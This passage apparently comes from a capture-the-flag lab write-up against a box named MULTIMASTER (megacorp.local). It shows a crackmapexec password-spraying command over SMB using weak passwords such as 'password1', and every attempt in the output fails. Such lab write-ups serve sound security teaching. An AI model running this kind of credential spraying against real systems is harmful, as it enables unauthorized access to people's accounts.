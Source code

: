 Then, we can attempt to use password spraying to find a valid user.&#x20;

### Spray Fail --> SID Brute --> Shell

For some reason, none of these users were valid.&#x20;

<pre><code>$ crackmapexec smb megacorp.local -u users -p passwords
<strong>SMB         megacorp.local  445    MULTIMASTER      [*] Windows Server 2016 Standard 14393 x64 (name:MULTIMASTER) (domain:MEGACORP.LOCAL) (signing:True) (SMBv1:True)
</strong>SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\sbauer:password1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\okent:password1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\ckane:password1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\kpage:password1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\shayna:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\shayna:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\shayna:password1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\james:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\james:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\james:password1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\cyork:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\cyork:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\cyork:password1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\rmartin:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\rmartin:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\rmartin:password1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\zac:banking1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\zac:finance1 STATUS_LOGON_FAILURE 
SMB         megacorp.local  445    MULTIMASTER      [-] MEGACORP.LOCAL\zac:password1 STATUS_LOGON_FAILURE 